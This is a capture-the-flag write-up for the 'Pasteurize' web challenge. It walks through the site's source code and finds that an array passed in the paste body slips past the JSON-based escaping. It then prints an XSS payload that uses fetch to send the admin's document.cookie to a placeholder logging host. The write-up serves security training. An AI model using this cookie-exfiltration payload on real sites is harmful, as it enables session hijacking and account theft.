



# Pasteurize

**Problem Description:**

> This doesn't look secure. I wouldn't put even the littlest secret in here. My source tells me that third parties might have implanted it with their little treats already. Can you prove me right?<br>
>
> https://pasteurize.web.ctfcompetition.com/

## Solution

Upon visiting the page, I saw:



I decided to view the source for the page, and I saw the following in it:

```html
<a href="/source" style="display:none">Source</a>
```

I decided to quickly take a look at what happens when I submit a paste, before visiting [/source](./source.js):



It seems like we send a POST request to `/` with the paste contents in the request body, to which the server responds by redirecting us to the newly made paste. Interestingly, there is a "share with TJMike:microphone:" button. So, this challenge most likely deals with injection and stealing/leaking the cookies of the admin. Viewing the source for the paste page, I saw the following:

```html
SNIPPED SOME USELESS STUFF
<!-- TODO: Fix b/1337 in /source that could lead to XSS -->
    
<script>
    const note = "testing lalalalallalalala";
    const note_id = "4062e9d2-37a7-4524-ac93-11a8cba40e9d";
    const note_el = document.getElementById('note-content');
    const note_url_el = document.getElementById('note-title');
    const clean = DOMPurify.sanitize(note);
    note_el.innerHTML = clean;
    note_url_el.href = `/${note_id}`;
    note_url_el.innerHTML = `${note_id}`;
</script>

<script>
    const msg = (new URL(location)).searchParams.get('msg');
    const back = document.getElementById('back');
    const alert_div = document.getElementById('alert');
    const alert_container = document.getElementById('alert-container');
    back.onclick = () => history.back();
    if (msg) {
        alert_div.innerText = msg;
        alert_container.style.display = "block";
        setTimeout(() => {
            alert_container.style.display = "none";
        }, 4000);
    }
</script>
```

I have no idea what the TODO means, but what is rather interesting, is that the contents of our paste are stored as a string in JS... With this in mind, I finally looked at [/source](./source.js).

It seems like they use a url-encoded body parser, so we can pass arrays and JSON objects through the body:

```js
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```

The following function is broken as hell, `JSON.stringify`? `slice(1, -1)`? What if unsafe is not a string? Nice.

```js
/* Who wants a slice? */
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
```

Looks like the paste creation logic, does no checks to verify that the contents of the paste are a string:

```js
/* \o/ [x] */
app.post('/', async (req, res) => {
  const note = req.body.content;
  if (!note) {
    return res.status(500).send("Nothing to add");
  }
  if (note.length > 2000) {
    res.status(500);
    return res.send("The note is too big");
  }

  const note_id = uuidv4();
  try {
    const result = await DB.add_note(note_id, note);
    if (!result) {
      res.status(500);
      console.error(result);
      return res.send("Something went wrong...");
    }
  } catch (err) {
    res.status(500);
    console.error(err);
    return res.send("Something went wrong...");
  }
  await utils.sleep(500);
  return res.redirect(`/${note_id}`);
});
```

Remember, our `safe_content` ends up as a string in JS section of the response:

```js
/* Make sure to properly escape the note! */
app.get('/:id([a-f0-9\-]{36})', recaptcha.middleware.render, utils.cache_mw, async (req, res) => {
  const note_id = req.params.id;
  const note = await DB.get_note(note_id);

  if (note == null) {
    return res.status(404).send("Paste not found or access has been denied.");
  }

  const unsafe_content = note.content;
  const safe_content = escape_string(unsafe_content);

  res.render('note_public', {
    content: safe_content,
    id: note_id,
    captcha: res.recaptcha
  });
});
```

The XSS was obvious at this point. I sent a POST request to `/` with the following body:

```
content[]=;fetch(`https://my_url_that_logs_requests/${document.cookie}`);
```

Thus, `note.content` ends up as:

```js
[";fetch(`https://my_url_that_logs_requests/${document.cookie}`);"]
```

Therefore, the resulting JS in the paste page would contain the following snippet:

```js
const note = "";fetch(`https://my_url_that_logs_requests/${document.cookie}`);"";
```

Upon sharing the resulting paste page with TJMike, and looking at the request logs to my server, I saw:

